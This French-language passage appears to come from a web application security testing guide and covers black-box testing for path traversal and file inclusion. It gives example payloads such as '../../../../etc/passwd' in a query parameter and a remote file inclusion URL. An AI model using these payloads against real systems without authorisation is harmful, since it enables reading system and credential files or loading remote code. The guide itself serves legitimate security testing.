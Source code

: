 ## Objectifs des tests

- Identifier les points d'injection qui se rapportent au chemin transversal.
- Évaluer les techniques de contournement et identifier l'étendue du chemin transversal.

## Comment tester

### Test de la boîte noire

#### Énumération des vecteurs d'entrée

Afin de déterminer quelle partie de l'application est vulnérable au contournement de la validation des entrées, le testeur doit énumérer toutes les parties de l'application qui acceptent le contenu de l'utilisateur. Cela inclut également les requêtes HTTP GET et POST et les options courantes telles que les téléchargements de fichiers et les formulaires HTML.

Voici quelques exemples de vérifications à effectuer à ce stade :

- Existe-t-il des paramètres de requête qui pourraient être utilisés pour les opérations liées aux fichiers ?
- Existe-t-il des extensions de fichiers inhabituelles ?
- Existe-t-il des noms de variables intéressants ?
    - `http://exemple.com/getUserProfile.jsp?item=ikki.html`
    - `http://exemple.com/index.php?file=content`
    - `http://exemple.com/main.cgi?home=index.htm`
- Est-il possible d'identifier les cookies utilisés par l'application web pour la génération dynamique de pages ou de templates ?
    - `Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower`
    - `Cookie: USER=1826cc8f:PSTYLE=GreenDotRed`

#### Techniques de test

La prochaine étape des tests consiste à analyser les fonctions de validation des entrées présentes dans l'application Web. En utilisant l'exemple précédent, la page dynamique appelée `getUserProfile.jsp` charge les informations statiques d'un fichier et montre le contenu aux utilisateurs. Un attaquant pourrait insérer la chaîne malveillante `../../../../etc/passwd` pour inclure le fichier de hachage de mot de passe d'un système Linux/UNIX. Évidemment, ce type d'attaque n'est possible que si le point de contrôle de validation échoue ; selon les privilèges du système de fichiers, l'application Web elle-même doit pouvoir lire le fichier.

**Remarque :** Pour tester avec succès cette faille, le testeur doit connaître le système testé et l'emplacement des fichiers demandés. Il est inutile de demander `/etc/passwd` à partir d'un serveur Web IIS.

```text
http://exemple.com/getUserProfile.jsp?item=../../../../etc/passwd
```

Un autre exemple courant consiste à inclure du contenu provenant d'une source externe :

```text
http://exemple.com/index.php?file=http://www.owasp.org/malicioustxt
```
